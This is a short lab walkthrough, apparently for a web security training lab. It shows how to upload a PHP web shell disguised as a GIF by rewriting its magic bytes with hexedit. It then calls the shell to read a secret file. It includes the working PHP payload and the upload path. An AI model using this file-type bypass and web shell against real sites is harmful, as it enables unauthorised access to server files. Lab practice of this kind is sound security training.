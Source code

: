 # Remote code execution via polyglot web shell upload

I went to my account and entered the provided credentials **username=wiener and password=peter**. And then I shown up a page where there was option to upload an image.

This is the point where we can upload our web shell to read the file **/home/carlos/secret**. 

Firstly, we need create the payload, that is:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

save it into a .php file and upload it but make sure you capture the request in burpsuite and sent it to the repeater in order to analyze the server behaviour.

Upload it and you'll get the error: **Error: file is not a valid image Sorry, there was an error uploading your file**. Now we should try to change the magic bytes of the file.

Open the file using the command:

```bash
hexedit webShell.php
```

You will see that file is starting from the hex's: `3C 3F 70 68 70` that represents php file. Now, add `#######` at the start of the file and again open the file in hexedit and try to replace the starting hex's with : `47 49 46 38 37 61 20`.

Now try to upload the file. Yeah! File uploaded successfully. Trigger the file using path `/files/avatars/webShell.php` and boom! You will get your desired value.

